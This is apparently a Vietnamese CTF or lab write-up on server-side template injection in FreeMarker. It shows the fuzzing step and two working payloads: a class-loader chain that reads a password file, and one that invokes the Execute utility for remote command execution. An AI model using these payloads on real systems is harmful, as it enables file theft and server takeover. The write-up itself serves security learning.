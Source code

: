 ![image](https://github.com/user-attachments/assets/d6389a86-8b0f-4d5a-a9b8-65da75835320)

![image](https://github.com/user-attachments/assets/3b2630cc-6c18-4d9b-a061-62ef8a272dee)

Tiến hành fuzz với các kí tự đặc biệt, object không tồn tại thì nó nhả ra lỗi, và ta biết được challenge này nó sử dụng `freemarker template`

![image](https://github.com/user-attachments/assets/2adf159b-a63f-46d5-8318-fb3a3dc49d2d)

Test thử các loại syntax có thể áp dụng thì ta thấy được `Default: ${3*3} Legacy: #{3*3}`, là 2 template dùng được.

giờ sẽ có 2 cách, **cách 1** là ở hội nghị defcon có trình bày, link tôi để phía dưới, 

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

Đó là payload. Đại loại là nó sẽ đọc file và output của nó sẽ dưới dạng `decimal`

**Cách 2**

```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("<SYSTEM CMD>")}
```

Chúng ta sẽ có payload trên để RCE.

![image](https://github.com/user-attachments/assets/95ee985b-401e-48bc-88d3-5561247a2221)

![image](https://github.com/user-attachments/assets/d531da60-d174-4205-84f9-d95c889bc70a)

Thành công.
# REFERENCES
[1]. https://media.defcon.org/DEF%20CON%2028/DEF%20CON%20Safe%20Mode%20presentations/DEF%20CON%20Safe%20Mode%20-%20Alvaro%20Mun%CC%83oz%20and%20Oleksandr%20Mirosh%20-%20Room%20For%20Escape%20Scribbling%20Outside%20The%20Lines%20Of%20Template%20Security.pdf
